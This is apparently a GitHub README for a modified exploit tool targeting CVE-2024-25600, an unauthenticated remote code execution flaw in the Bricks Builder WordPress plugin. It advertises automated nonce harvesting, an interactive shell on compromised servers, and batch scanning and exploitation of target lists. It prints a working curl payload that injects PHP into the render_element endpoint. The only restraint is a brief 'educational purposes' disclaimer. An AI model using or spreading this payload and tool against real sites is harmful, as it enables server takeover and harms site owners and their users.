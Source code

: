 # CVE-2024-25600 Exploit Tool 🚀

## Disclaimer: This tool is owned by [Tornad0007](https://github.com/Tornad0007), I edited the code for make it easier to other people that has issues.

# CVE-2024-25600 Bricks Builder plugin for WordPress

This tool is meticulously crafted to exploit the critical CVE-2024-25600 vulnerability identified in the Bricks Builder plugin for WordPress. This particular vulnerability exposes affected websites to unauthenticated remote code execution, posing a significant security threat. By leveraging this tool, attackers can automate the exploitation process, allowing them to execute arbitrary commands on vulnerable WordPress installations.

### Key Features:

1. **Automated Exploitation**: The tool automates the exploitation process by retrieving unique cryptographic tokens, known as nonces, from target WordPress sites. These nonces are pivotal for crafting malicious requests.

2. **Crafting and Sending Requests**: Leveraging the obtained nonces, the tool constructs and dispatches specially crafted requests to the vulnerable WordPress installations. These requests are designed to execute arbitrary commands on the target server.

3. **Response Processing**: Upon receiving responses from the server, the tool meticulously parses the HTML content to identify any error messages or indications of successful exploitation. If successful, it extracts and presents the results of the executed commands.

4. **Interactive Mode**: Engage with the target website in real-time 🕹️. Users can directly input commands to be executed on compromised systems, facilitating deeper exploitation.

5. **Vulnerability Checking**: The tool includes functionality to ascertain if a given WordPress site is susceptible to the CVE-2024-25600 vulnerability. It achieves this by attempting exploitation and analyzing server responses.

6. **Batch Mode**: To streamline operations, the tool supports batch processing, enabling users to provide a list of target URLs for vulnerability scanning and exploitation.

### Installation 🛠️

1. Clone this repository to your local machine 🖥️ using `git clone`.
2. Navigate to the directory of the cloned repository.
3. Install the required Python libraries using `pip install -r requirements.txt`.

### Usage 📖

**Interactive Mode** 🎮

- Run the tool with `python exploit.py --url <URL>` to start interactive mode.
- Follow the on-screen prompts to send commands to the target server.

**Batch Mode** 📊

- Prepare a text file with a list of target URLs.
- Run the tool with `python exploit.py --list <file_path>` to scan and exploit the listed sites.

For more detailed usage instructions and options, please refer to the [original repository](https://github.com/Tornad0007/CVE-2024-25600-Bricks-Builder-plugin-for-WordPress/tree/main).

### Proof of Concept (PoC) 📝

The base PoC provided by the disclosure is as follows:

```bash
curl -k -X POST https://[HOST]/wp-json/bricks/v1/render_element \
-H "Content-Type: application/json" \
-d '{
  "postId": "1",
  "nonce": "[NONCE]",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "true",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "throw new Exception(`id`);",
        "objectType": "post"
      }
    }
  }
}'
```

Replace `[HOST]` with the target website and `[NONCE]` with the nonce value retrieved from the site.

### Reference 📖

For more information about the CVE-2024-25600 vulnerability, please refer to the detailed disclosure at Snicco.io.

### Disclaimer ⚠️

The information provided in this README is for educational purposes only. Unauthorized hacking into websites or networks is illegal and unethical. 🚫

### Acknowledgements 🙏

Kudos to the security researchers who discovered and reported this vulnerability, providing the community with information and tools to help secure their web applications.

### Changes I Made to the Code:

- **Interactive Shell Functionality**: Modified the `interactive_shell` method to properly handle user input. Now, it correctly compares the lowercase version of the input command to exit or clear the shell.
  
- **Process Response Method**: Adjusted the `process_response` method to ensure the extracted text properly handles cases where the payload is not enough for Remote Code Execution (RCE). The extracted text now reflects this scenario more accurately.
  
- **Vulnerability Checking**: Updated the `check_vulnerability` method to print a message when the vulnerability check encounters an error, improving error handling and user feedback.
  
- **Main Function**: Incorporated command-line argument parsing using the argparse module, providing users with more flexibility in specifying the URL, list of URLs, and output file for vulnerable URLs.
  
- **Code Formatting**: Ensured consistent code formatting and adhered to PEP 8 style guidelines for better readability and maintainability.

These changes enhance the functionality, usability, and robustness of the exploit tool, making it more effective for identifying and exploiting the CVE-2024-25600 vulnerability in the Bricks Builder plugin for WordPress.

<h1> <strong>Thank you for reading, don't forget to star it so you don't lose it.</strong> </h1>
Also share it if it was usefull.
